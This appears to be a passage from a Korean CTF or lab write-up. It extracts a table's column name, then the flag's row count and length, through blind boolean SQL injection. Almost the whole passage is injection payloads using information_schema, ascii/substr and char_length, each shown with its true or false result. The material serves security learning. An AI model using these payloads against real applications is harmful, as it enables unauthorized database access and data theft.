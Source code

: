 ### 4.3. 이름 확인
#### 4.3.2. 2번째
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 1, 1)) = 102) #**
-> O  
-> 찾은 글자: fxxx  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 2, 1)) = 108) #**
-> O  
-> 찾은 글자: flxx  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 3, 1)) = 97) #**
-> O  
-> 찾은 글자: flax  
-> 예측한 글자: flag  
1. **normaltic' and (ascii(substr(((select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)), 4, 1)) = 103) #**
-> O  
-> 찾은 글자: flag  
-> 예측한 글자: flag  

## 5. DATA
### 5.1. 개수 확인
1. **normaltic' and ((select count(flag) from flagTable) < 5) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) < 3) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) < 2) #**
-> O  
1. **normaltic' and ((select count(flag) from flagTable) = 1) #**
-> O  
-> 🥰 1개!!!

### 5.2. 글자수 확인
1. **normaltic' and ((char_length((select flag from flagTable))) > 10) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 20) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 30) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 40) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 35) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 32) #**
-> O  
1. **normaltic' and ((char_length((select flag from flagTable))) > 34) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) > 33) #**
-> X  
1. **normaltic' and ((char_length((select flag from flagTable))) = 33) #**
-> O  
-> 😇 33개요...??
